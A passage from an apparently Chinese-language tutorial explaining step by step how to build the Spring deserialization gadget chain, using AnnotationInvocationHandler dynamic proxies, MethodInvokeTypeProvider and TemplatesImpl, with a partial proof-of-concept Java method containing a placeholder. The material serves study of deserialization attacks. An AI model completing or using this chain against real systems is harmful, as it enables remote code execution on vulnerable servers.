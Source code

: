 这个类什么意思呢？

就是构造一个这个类(`sun.reflect.annotation.AnnotationInvocationHandler`)的动态代理对象，假如我要调用这个类的`getType`方法，那么就会触发动态代理对象中的`invoke`方法，此时`invoke`方法中的`Method`这个类型的参数的值就是 `getType`，然后从`this.memeberValues`这个`getType`对应的Object。

所以我们接着在原来残缺的POC上进行构造：

```java
public static void main(String[] args) throws Exception {

    // 因为AnnotationInvocationHandler是一个注解，所以无法通过正常方式new出来
    // 这里是使用反射的方式来进行创建
    Class<?> annotationInvocationHandler = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
    Constructor<?> aihCtor = annotationInvocationHandler.getDeclaredConstructors()[0];
    aihCtor.setAccessible(true);

    Map<String, Object> map = new HashMap<>();
    // 此时我们往这个map塞入一个键为 getType的 xxxxxxxxxx
    // 就能使得在触发动态代理的getType方法时能够返回xxxxxxxxxx这个Object
    // 但此时我们还不知道xxxxxxxxxx该怎么构造
    map.put("getType", xxxxxxxxxx);
    InvocationHandler getTypeMappingInvocationHandler = (InvocationHandler)aihCtor.newInstance(Override.class, map);
    Class<?> typeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$TypeProvider");
    Object typeProviderProxy = Proxy.newProxyInstance(Spring2.class.getClassLoader(), new Class[]{typeProvider}, getTypeMappingInvocationHandler);


    // -----------------下边的这段代码就不用关注了-----------------
    Class<?> methodInvokeTypeProvider = Class.forName("org.springframework.core.SerializableTypeWrapper$MethodInvokeTypeProvider");
    Constructor<?> mitpCtor = methodInvokeTypeProvider.getDeclaredConstructors()[0];
    mitpCtor.setAccessible(true);
    // 把构建好的动态代理传给MethodInvokeTypeProvider内部的provider属性
    final Object mitp = mitpCtor.newInstance(typeProviderProxy, Object.class.getMethod("getClass", new Class[] {}), 0);
    final Field field = mitp.getClass().getDeclaredField("methodName");
    field.setAccessible(true);
    field.set(mitp, "getOutputProperties");
}
```

在上边的这份代码中就能让`MethodInvokeTypeProvider`中的`this.provider.getType()`方法了，但是还没有完。

因为`getType()`方法返回的是一个`Type`接口，我们直接把`TemplatesImpl`塞进去是不行的，因为`TemplatesImpl`无法被转换为`Type`接口。

所以现在我们希望一个类既实现了`Type`又实现了`Templates`接口（`getOutputProperties`和`newTransformer`方法都被定义在这个接口中），但很显然这是不可能的。（为什么这里还要实现`Templates`接口呢？这是因为在`MethodInvokeTypeProvider`中我们需要调用这个类的`getOutputProperties`或者`newTransformer`方法

这个问题通过动态代理还是可以解决，我们通过动态代理代理这两个接口就行了。
